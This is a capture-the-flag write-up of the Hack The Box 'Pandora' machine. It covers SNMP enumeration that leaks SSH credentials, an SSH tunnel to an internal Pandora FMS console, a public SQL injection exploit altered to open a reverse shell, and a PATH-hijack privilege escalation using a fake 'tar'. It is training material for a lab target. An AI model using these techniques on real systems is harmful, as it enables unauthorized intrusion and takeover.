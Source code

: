 # Pandora Write-Up - HTB

Target\_IP: 10.10.11.136

## ENUMERATION🕵:

Starting enumeration by a standars -sS scan:

```bash
nmap -sS -Pn -n --disable-arp-ping -oA _sS 10.10.11.136
```

```bash
# Nmap 7.94SVN scan initiated Tue Aug 27 19:27:11 2024 as: 
Nmap scan report for 10.10.11.136
Host is up (0.063s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
# Nmap done at Tue Aug 27 19:27:12 2024 -- 1 IP address (1 host up) scanned in 0.84 seconds
```

We can see port 22 and port 80 open.&#x20;

<div align="left"><figure><img src="../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure></div>

&#x20;I went through the web app and couldn't find much useful. I then tried to do some vhost and sub-directory brute-forcing, but nothing :(:

<figure><img src="../.gitbook/assets/image (112).png" alt=""><figcaption></figcaption></figure>

I then scanned most common 100 UDP ports.

```bash
nmap -sU --top-ports=100 -Pn -n --disable-arp-ping -oA udp_100 10.10.11.136
```

```bash
# Nmap 7.94SVN scan initiated Tue Aug 27 19:28:08 2024 as: 
Nmap scan report for 10.10.11.136
Host is up (0.081s latency).
Not shown: 99 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

# Nmap done at Tue Aug 27 19:29:52 2024 -- 1 IP address (1 host up) scanned in 103.35 seconds
```

161, SNMP open. Let's enumerate it and see what we get. First, let's check what community strings are available to us:

```bash
onesixtyone -c /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt 10.10.11.136
```

<figure><img src="../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

The public one is up! Let's see !

<figure><img src="../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

I found snmpwalk going through all OIDs being messy and taking some time, so I tailored my command to check OIDs individually and I found `1.3.6.1.2.1.25.4` to have a treasure:&#x20;

<figure><img src="../.gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure>

## &#x20;FOOTHOLDING💀:

I then ran these credentials on ssh:&#x20;

<div align="left"><figure><img src="../.gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure></div>

&#x20;Let's check SUDO:&#x20;

<figure><img src="../.gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>

&#x20;We are not allowed to :( Hmm, trying to check for perm files:&#x20;

<figure><img src="../.gitbook/assets/image (118).png" alt=""><figcaption></figcaption></figure>

&#x20;I see now that there is lateral movement involved in this machine prior to getting root. I then started to enumerate the machine and found something interesting in `www`:&#x20;

<div align="left"><figure><img src="../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure></div>

&#x20;Hmm so this pandora folder is owned by matt. Let's check for internal ports `ss -tlpn` to see what's going on here:

<figure><img src="../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

## LATERAL MOVEMENT💀:

So, in order to access this resource, let's set up the ssh tunel:

```bash
ssh -f -N -L 80:127.0.0.1:80 -L 80:127.0.0.1:80 daniel@10.10.11.136
```

<figure><img src="../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

Navitage to 127.0.0.1:80 in browser:&#x20;

<figure><img src="../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

<div align="left"><figure><img src="../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure></div>

So I googled for this version's available PoCs and found [this](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py) I tailored the script to my needs, instead of the "test" I made it run a reverse shell directly.&#x20;

<figure><img src="../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

&#x20;In the meantime I did setup a listener:&#x20;

<figure><img src="../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

&#x20;AND BOOOM! We got it :) Upgrade the shell now:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

<figure><img src="../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

&#x20;Now remember from our initial enum that there is the backup\_pandora interesting file, let's check it now that we got matt. By running `cat` on it, we can see:&#x20;

<figure><img src="../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

```bash
clienttar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
```

## PRIV ESC☠️:

So it is not using an absolute path! Let's try and get root via this. So I did:

```bash
export PATH=/home/matt:$PATH
echo "/bin/sh" > tar
chmod +x tar
```

<div align="left"><figure><img src="../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure></div>

&#x20;For some reason I kept getting matt, so I started searching for something else. First I did stabilize my shell.

```bash
cd /home/matt
mkdir .ssh
cd .ssh
ssh-keygen -t rsa -b 4096

Generating public/private rsa key pair.
Enter file in which to save the key (/home/matt/.ssh/id_rsa): 

Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in /home/matt/.ssh/id_rsa
Your public key has been saved in /home/matt/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:Il1dP7Qfs4s2ALlsrhRFvEo1pCODXMrZnOytNa5LqjY matt@pandora
The key's randomart image is:
+---[RSA 4096]----+
|     .  oo  . .  |
|  o O . o=.. o . |
|   * B oo++   +o |
|    ..+o+.o    o+|
|    ..+=S+ .   ..|
|     .+o=   . . .|
|     o o .   + . |
| E  o o .   . .  |
|..o. o..         |
+----[SHA256]-----+

```

<figure><img src="../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

&#x20;Setting up a web server so I can transfer it on my host.&#x20;

<figure><img src="../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (132).png" alt=""><figcaption></figcaption></figure>

Trying to ssh with the key:&#x20;

<div align="left"><figure><img src="../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure></div>

Creating the authorized\_keys so that we can do it:&#x20;

<div align="left"><figure><img src="../.gitbook/assets/image (134).png" alt=""><figcaption></figcaption></figure></div>

&#x20;Now again:&#x20;

<div align="left"><figure><img src="../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure></div>

&#x20;Great, we got a stable shell. I did try to enumerate everything again, but nothing. Really the intended path to be this one with the pandora\_backup, so I try it again. So:&#x20;

<figure><img src="../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

Running the binary again:&#x20;

<div align="left"><figure><img src="../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure></div>

&#x20;Hmm, this time we have root. Literally this machine made me xplode cuz I was not understanding why this pandora\_backup is not giving me root. I will research this.

&#x20;Anyways, I stabilized the shell for root too to check the machine in-depth and see what happened, cheers!&#x20;

